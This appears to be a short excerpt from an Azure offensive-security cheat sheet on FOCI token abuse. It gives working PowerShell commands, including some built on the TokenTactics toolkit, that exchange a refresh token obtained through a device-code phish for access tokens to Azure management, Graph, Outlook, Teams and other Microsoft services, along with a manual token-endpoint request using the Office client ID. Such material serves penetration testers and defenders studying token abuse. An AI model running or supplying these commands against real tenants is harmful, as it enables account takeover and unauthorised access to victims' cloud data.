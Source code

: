 #### FOCI abuse TokenTactics
- https://github.com/rvrsh3ll/TokenTactics
- Example requests ARM access token
```
$ARMAccessToken = (Invoke-RefreshToAzureManagementToken -domain <COMPANY>.onmicrosoft.com -refreshToken $response.refresh_token).access_token

$ARMAccessToken
```

```
PS C:\> Get-Command *Invoke-RefreshTo*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Invoke-RefreshToAzureCoreManagementToken           0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken               0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                      0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken              0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToSharepointOnlineToken              0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                        0.0.2      TokenTactics
```

#### Request access tokens manually
- [Link to endpoints](/azure/readme.md#Endpoints)
- Using a refresh token in variable from TokenTactics/DeviceCode phish

```
$Endpoint = ""

$refresh_token = $tokens.refresh_token

$ClientID = "d3590ed6-52b3-4102-aeff-aad2292ab01c" #Microsoft Office
$scope = $Endpoint
$GrantType = 'refresh_token'

$body=@{
	"client_id" = $ClientID
	"scope" = $Scope
	"refresh_token" = $refresh_token
	"grant_type" = $GrantType
}

$NewTokens = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/v2.0/token" -Body $body

$NewTokens

$NewAccessToken = $NewTokens.access_token
```
